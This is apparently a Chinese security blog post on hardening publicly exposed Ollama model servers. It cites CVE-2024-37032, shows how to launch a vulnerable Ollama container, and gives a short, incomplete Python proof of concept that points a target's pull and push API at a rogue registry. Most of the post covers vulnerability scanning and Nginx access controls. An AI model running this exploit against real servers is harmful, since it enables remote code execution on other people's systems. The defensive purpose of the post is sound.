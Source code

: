 #  深度修复 DeepSeek 云端部署潜在威胁漏洞   
原创 大荒Sec  太乙Sec实验室   2025-02-20 06:13  
  
**免责声明****：**  
本公众号 **太乙Sec实验室**  
所提供的实验环境均是本地搭建，仅限于**网络安全研究与学习**  
。旨在为安全爱好者提供技术交流。任何个人或组织因传播、利用本公众号所提供的信息而进行的操作，所导致的直接或间接后果及损失，均由使用者本人负责。**太乙Sec实验室**  
及作者对此不承担任何责任  
  
  
实验背景  
  
近期大量Ollama模型服务器裸奔、云端部署的Ollama模型网络安全何解？  
<table><tbody><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 36px;"><td data-colwidth="137" width="137" valign="top" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(217, 217, 217);"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;min-height: 24px;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;font-size: 16px;"><span leaf="">主机</span></span></p></td><td data-colwidth="148" width="148" valign="top" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(217, 217, 217);"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;min-height: 24px;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;font-size: 16px;"><span leaf="">IP</span></span></p></td><td data-colwidth="175" width="175" valign="top" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(217, 217, 217);"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;min-height: 24px;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;font-size: 16px;"><span leaf="">账号</span></span></p></td></tr><tr style="-webkit-tap-highlight-color: transparent;outline: 0px;height: 77px;"><td data-colwidth="137" width="137" valign="top" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(217, 217, 217);"><section><span leaf="">Ubuntu</span></section></td><td data-colwidth="148" width="148" valign="top" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(217, 217, 217);"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;min-height: 24px;"><span leaf="">云主机</span></p></td><td data-colwidth="175" width="175" valign="top" style="-webkit-tap-highlight-color: transparent;outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(217, 217, 217);"><p style="-webkit-tap-highlight-color: transparent;outline: 0px;min-height: 24px;"><span style="-webkit-tap-highlight-color: transparent;outline: 0px;font-size: 16px;"><span leaf=""> xxx</span><span leaf=""><br/></span></span></p></td></tr></tbody></table>  
查看FOFA资产Ollama部署在公网的情况  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tHlQeib8sz1JFq0sRbx0ibmOcPrVAy0RUgA1BIVWdemBmZUtib5IwwoHic8ic1dsZ5MMScUy2GlkcBH84Tul6qYqEoQ/640?wx_fmt=png&from=appmsg "")  
  
根据互联网上披露，2024 年 6 月 24 日， CVE-2024-37032 Ollama 目录遍历致代码执行漏洞。由于通常情况下 Ollama 没有认证授权，攻击者可利用相关 API 结合目录遍历漏洞造成远程代码执行，控制服务器。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tHlQeib8sz1JFq0sRbx0ibmOcPrVAy0RUgs3NnJRKbcYyypekLc2bPSWW7bMb2ibiaWx1fJGlcrjqXlutJF2nLuEcQ/640?wx_fmt=png&from=appmsg "")  
## 漏洞影响  
```
Ollama < 0.1.34
```  
## 看到返回对应的版本号，就说明上面的漏洞太老了。  
```
ollama -v //0.5.7 
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tHlQeib8sz1JujFe1WXG4HewpRRwz1IWATBleO7ABChRZBj4bIrLHRiaUc5y8MQWPMEmKF5zOXqEA7GOO4Rb219A/640?wx_fmt=png&from=appmsg "")  
```
// 搭建平台
docker run -d -v ollama:/root/.ollama -p 11434:11434 --name ollama ollama/ollama:0.1.33
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tHlQeib8sz1JFq0sRbx0ibmOcPrVAy0RUgiaAlBUEgfyfyibMVh0Y9nsQ8oa2fAtC2pPLD0sjIiaBYyxx5PzR2uT4IA/640?wx_fmt=png&from=appmsg "")  
```
import requests
# 设定目标服务器的主机名
HOST = "dev-1.lan.bi0x.com"
# 组合出目标服务器的完整 URL，包含协议和端口号
target_url = f"http://{HOST}:11434"

pull_url = f"{target_url}/api/pull"

push_url = f"{target_url}/api/push"

requests.post(pull_url, json={"name": vuln_registry_url, "insecure": True})

requests.post(push_url, json={"name": vuln_registry_url, "insecure": True})

# see rogue server log
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tHlQeib8sz1JFq0sRbx0ibmOcPrVAy0RUgbMn5tq6bT7QBBbwupgPn9iagW0ba2rYoNlSEaUacPe9FTcpicKlibCKwA/640?wx_fmt=png&from=appmsg "")  
  
 a  
AI漏扫系统  
```
/by 腾讯朱雀实验室
下载地址：https://github.com/Tencent/AI-Infra-Guard/releases
用法
本地扫描
./ai-infra-guard -localscan
单一目标
./ai-infra-guard -target [IP/Domain] 
多个目标
./ai-infra-guard -target [IP/Domain] -target [IP/Domain]
从文件读取
./ai-infra-guard -file target.txt
人工智能分析
./ai-infra-guard -target [IP/Domain] -ai -token [Hunyuan token]
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tHlQeib8sz1JFq0sRbx0ibmOcPrVAy0RUgkDxQrevWR1I2kIryUJqRJvGJtZFbTjy56t07VD0JwXe7k7ERN8OP6A/640?wx_fmt=png&from=appmsg "")  
  
漏扫了一下，一堆漏洞，修复方案：更新最新版本  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tHlQeib8sz1JFq0sRbx0ibmOcPrVAy0RUgSargAvvIibQWGicibC0tYpkj2I4LZ6F4AIbia10D0AdnwG99HCIUPLQXQA/640?wx_fmt=png&from=appmsg "")  
  
云端部署安全措施  
  
先漏扫服务器（最新版本的模型），查看漏洞详情  
```
./ai-infra-guard  -target  http://:11434//扫描服务器
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/tHlQeib8sz1IjemalaZlysEWyvTc5sicA6eeeOLmmlIfGnAb0dtR007PlLiaWUBxRKrTE5mhqyYl9p8rCo0RZujwA/640?wx_fmt=jpeg "")  
  
ollama部署安全提示LOW漏洞，导致ollama外部开放将导致算力窃取和数据资源滥用。  
  
修复措施  
  
配置OLLAMA 添加相关条件，  
修改默认端口  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tHlQeib8sz1JFq0sRbx0ibmOcPrVAy0RUgAz1CibwXTCoMmCCzlW6hIicvKiaZmdicibOQVy40oFw5MUIAdGmB3lB5yyA/640?wx_fmt=png&from=appmsg "")  
  
 网络层访问控制  
#### 可以让Nginx 通过配置域名、https、反向代理、 IP 白名单，可以限制只有特定 IP 地址的客户端才能访问 Ollama 服务。  
```
# Nginx反向代理配置
location /api/ {
  auth_request /auth;  # 对/api/路径下的请求进行身份验证，将请求转发到/auth路径进行处理
  proxy_pass http://ollama-backend;  # 将经过身份验证的请求转发到Ollama后端服务
}
location = /auth {
  internal;  # 该路径只能被Nginx内部调用，不允许外部直接访问
  proxy_pass https://keycloak/auth/realms/ollama/protocol/openid-connect/token/introspect;  # 将身份验证请求转发到Keycloak的令牌验证端点
  proxy_pass_request_body off;  # 不转发请求体
  proxy_set_header Content-Length "";  # 清空Content-Length请求头
  proxy_set_header X-Original-URI $request_uri;  # 设置X-Original-URI请求头，记录原始请求的URI
}
```  
```
//定义 IP 白名单
http {
    # 定义 IP 白名单
    geo $allow_ip {
        default 0;
        192.168.1.0/24 1;
        10.0.0.0/8 1;
    }
    server {
        listen 80;
        server_name your_domain.com;
        location / {
            if ($allow_ip = 0) {
                return 403;
            }
            proxy_pass http://backend_server;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        }
    }
}

```  
```
// 配置 SSL 证书和密钥
server {
        listen 443 ssl;
        server_name your_domain.com;
        # 配置 SSL 证书和密钥路径
        ssl_certificate /path/to/your_domain.com.crt;
        ssl_certificate_key /path/to/your_domain.com.key;
        # 配置 SSL 协议和密码套件，使用较安全的组合
        ssl_protocols TLSv1.2 TLSv1.3;
        ssl_ciphers HIGH:!aNULL:!MD5;
        ssl_prefer_server_ciphers on;
        location / {
            if ($allow_ip = 0) {
                return 403;  # 如果不在 IP 白名单内，返回 403 禁止访问
            }
            proxy_pass http://backend_server;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
        }
    }
}
```  
  
看一下效果，无法正常访问。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tHlQeib8sz1JFq0sRbx0ibmOcPrVAy0RUg8t82uX02E7ic1qv1pFkUDIpiaCIg3LLpibvELPrKdQZA4T9ngiaKQqXGPw/640?wx_fmt=png&from=appmsg "")  
  
往期精彩回顾  
  
[零基础：从搭建DeepSeek开始](https://mp.weixin.qq.com/s?__biz=Mzk0Mzc2MDQyMg==&mid=2247486458&idx=1&sn=69916ef3b03a1efb0dac87b22c9504cc&scene=21#wechat_redirect)  
  
  
[零基础：从本地部署到云端上线，打造你的DeepSeek网络安全专家](https://mp.weixin.qq.com/s?__biz=Mzk0Mzc2MDQyMg==&mid=2247486468&idx=1&sn=23a567f6d57c0f2271173ca675b62766&scene=21#wechat_redirect)  
  
  
**关注我****，了解****更多知识，别忘****了关注****+点赞****哦！******  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RITPxDQz30icticGDszvMCTbvDxbl8zxyibqkfOTIRXJQVU3YEHicR6AiatHvlnPic7qayibiazKoJV54NVDMmL1uVqsGg/640?wx_fmt=other&random=0.008279855111830159&random=0.8417589579850686&random=0.7406363082812077&random=0.10974797073162001&random=0.07292006660739969&wxfrom=5&wx_lazy=1&wx_co=1&random=0.9329563926201925&random=0.7721899576088909&random=0.8732144113576208&random=0.19158149965875793&random=0.14234663701611816&random=0.6197239709294833&random=0.6087404282162256&random=0.7816651464380318&random=0.6382235312520264&random=0.18529992036868959&random=0.8108904783265143&random=0.8471140121001628&random=0.08898610680286101&random=0.008507273801011683&random=0.9647940082061903&random=0.49839411124559185&random=0.36416103289090485&random=0.8610727679390984&random=0.4202445756317146&random=0.5658152415600335&random=0.05215623887101817&random=0.054673954102818945&random=0.7636185446317116&random=0.6630448098148167&random=0.6555189201793772&tp=webp "")  
  
  
